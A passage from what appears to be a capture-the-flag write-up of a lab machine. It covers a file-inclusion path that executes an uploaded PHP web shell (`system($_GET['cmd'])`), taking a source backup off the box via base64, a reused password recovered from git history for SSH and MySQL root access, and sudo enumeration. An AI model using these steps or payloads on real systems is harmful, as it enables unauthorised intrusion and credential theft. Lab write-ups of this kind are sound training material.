 I then tried to `include` and execute the reverse shell with `image.php?img=images/uploads/<HASH>_shell.jpg` but it doesn't work. A simple `<?php echo system($_GET["cmd"]);?>` works but we still can't get a reverse shell. This might be due to some firewall rules. We just have to manually enumerate the machine with the `cmd`.

Looking at `/opt`, we have `source-files-backup.zip` which can easily be exfiltrated simply with `base64 /opt/source-files-backup.zip` and decoding the file. Unzipping the file gives us the source code for the website in a `git` repository. Checking the history, we see an old password in `db_conn.php` which can be used to SSH in as aaron.

Checking listening ports ...

```sh
aaron@timing:~$ ss -tlnp
State         Recv-Q          Send-Q                    Local Address:Port                   Peer Address:Port
LISTEN        0               80                            127.0.0.1:3306                        0.0.0.0:*
LISTEN        0               128                       127.0.0.53%lo:53                          0.0.0.0:*
LISTEN        0               128                             0.0.0.0:22                          0.0.0.0:*
LISTEN        0               128                                   *:80                                *:*
LISTEN        0               128                                [::]:22                             [::]:*
```

We have MySQL on port 3306. We can log into MySQL as root with the newest password from the `source-files-backup.zip` repository. Looking around, the only interesting thing is table `users` in the database `app` containing admin and aaron's password hashes and info, though I didn't bother cracking them.

Checking aaron's `sudo` privileges ...

```sh
aaron@timing:~$ sudo -l
Matching Defaults entries for aaron on timing:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User aaron may run the following commands on timing:
    (ALL) NOPASSWD: /usr/bin/netutils
```

We can run `/usr/bin/netutils` as root without a password. It's just a script running `/root/netutils.jar`.

```sh
aaron@timing:~$ sudo /usr/bin/netutils
netutils v0.1
Select one option:
[0] FTP
[1] HTTP
[2] Quit
Input >>
```
